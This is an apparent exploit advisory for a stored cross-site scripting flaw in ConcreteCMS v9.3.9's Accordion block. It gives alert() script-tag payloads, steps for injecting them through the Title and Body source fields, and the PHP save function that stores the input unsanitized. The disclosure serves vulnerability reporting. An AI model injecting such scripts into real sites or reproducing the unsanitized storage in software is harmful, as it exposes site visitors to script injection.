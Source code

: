 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/13/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Title field、Body source field when adding a Accordion block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('Title');</script>
<script>alert('Body Source');</script>
```

1. Use administrator login
2. Click "add content to the page" in the top navigation.
3. Select the Accordion , drag and drop it to the page.
4. Add <script>alert('...');</script> to the Title field、Body source field and then click save,the xss vulnerability appears.

Potentially problematic source code:
```php
public function save($args)
    {
        parent::save($args);

        /** @var Connection $db */
        $db = $this->app->make(Connection::class);
        $db->executeStatement('DELETE FROM btAccordionEntries WHERE bID = ?', [$this->bID]);
        $entries = $this->processJson($args);

        if ($entries) {
            $sortOrder = 0;
            foreach ($entries as $entry) {
                // Add the entry row
                if (isset($entry['description'])) {
                    $entry['description'] = LinkAbstractor::translateTo($entry['description']);
                }
                $db->executeStatement(
                    'INSERT INTO btAccordionEntries (bID, sortOrder, title, description) VALUES (?, ?, ?, ?)',
                    [(int)$this->bID, $sortOrder++, $entry['title'], $entry['description']]
                );
            }
        }
    }
```